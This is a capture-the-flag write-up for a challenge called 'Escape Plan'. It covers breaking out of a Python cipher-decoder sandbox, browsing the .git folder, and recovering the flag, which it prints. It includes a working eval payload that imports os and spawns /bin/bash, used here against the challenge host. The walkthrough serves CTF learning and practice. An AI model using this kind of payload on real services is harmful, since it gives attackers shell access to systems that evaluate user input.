 ## Escape Plan
The main idea finding the flag is just spawning into a sandbox.

#### Step-1:
When we run `nc chall.csivit.com 30419`, we are greeted with,

```bash
Welcome to cipher decoder, an open-source script in python!

EXAMPLES:
    shift_cipher_key('hello', 25)
    shift_cipher_bruteforce('hello')
    encrypt_vigenere('TEXT', 'KEY')
    decrypt_vigenere('DIVD', 'KEY')

Currently supported ciphers:
    shift_cipher_key(text, shift)
    shift_cipher_bruteforce(text)
    encrypt_vigenere(plaintext, key)
    decrypt_vigenere(ciphertext, key)

To exit:
    exit()

I am constantly trying to make this cipher decoder better and more secure! Help me add support to more ciphers by submitting a PR!
Hope it helps you!
```

#### Step-2:
So to escape, I tried `eval('__import__("os").system("/bin/bash")')` and I was in.

Once in I directly checked, `ls -al`, and I got this:

```bash
total 20
drwxr-x--- 1 root ctf  4096 Jul 22 06:35 .
drwxr-xr-x 1 root root 4096 Jul 26 16:58 ..
drwxr-x--- 1 root ctf  4096 Jul 22 06:27 .git
-rwxr-x--- 1 root ctf  2654 Jul 22 06:27 crypto.py
-rwxr-x--- 1 root ctf    52 Jul 22 06:27 start.sh
```

#### Step-3:
I checked other files, but I will stick to procedure here. Since the description involved a PR, I checked `.git` first by `cd .git`. I got usual files:

```bash
COMMIT_EDITMSG
HEAD
config
description
hooks
index
info
logs
objects
packed-refs
refs
```
At this point, I generally check `logs` to get an overview over the changes in the repo, but here the permission was denied.

#### Step-4:
So, I checked config files by `cat config` and I got this:

```bash
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
[remote "origin"]
	url = https://github.com/alias-rahil/crypto-cli
	fetch = +refs/heads/*:refs/remotes/origin/*
[branch "master"]
	remote = origin
	merge = refs/heads/master
```
#### Step-4:
Now, I got a URL and checked at the given head and got the flag.

<img src="Flag.png">

#### Step-5:
Finally the flag becomes:
`csictf{2077m4y32_h45_35c4p3d}`
